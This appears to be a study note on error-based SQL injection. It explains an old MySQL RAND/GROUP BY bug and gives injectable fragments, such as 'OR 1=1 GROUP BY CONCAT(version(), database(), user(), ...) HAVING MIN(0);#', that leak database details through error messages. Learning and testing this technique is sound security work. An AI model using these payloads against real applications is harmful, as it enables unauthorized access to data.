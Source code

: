 ```yaml
---
title: ERROR based (In-band) Injection
---
```


1. <u>Bug in MySQL</u>  
   Bug Present in old versions of MySQL  
   [MySQL Bugs: 82544](https://bugs.mysql.com/bug.php?id=82544)  

By using seed we are going to generate the same values every time. If the table has at least 3 entries then by rounding the values 2 of they are going to be the same and we can cause the bug

````sql
-- Seed will create the same values very time
SELECT name, RAND(0) 
FROM users; 

-- Column with rounded values
SELECT name, RAND(0), ROUND(RAND(0)) 
FROM users; 

SELECT name 
FROM users 
GROUP BY ROUND(RAND(0));
````

2. <u>Triggering the Bug</u>

````sql
SELECT name 
FROM users 
GROUP BY ROUND(RAND(0)) HAVING MIN(0);

SELECT name, COUNT(*) 
FROM users 
GROUP BY ROUND(RAND(0));
````

The count() approach is mostly useless as the statement till the where clause is going to be fixed by the application we can only control the part that comes after the where clause

````sql
SELECT name 
FROM users 
WHERE username="sagar" OR 1=1 
GROUP BY ROUND(RAND(0)) HAVING MIN(0);
````

3. <u>Getting Information using Bug</u>

````sql
OR 1=1 
GROUP BY ROUND(RAND(0)) HAVING MIN(0);#

OR 1=1 
GROUP BY CONCAT(version(), " ", database(), " ", user(), " ", ROUND(RAND())) HAVING MIN(0);#
````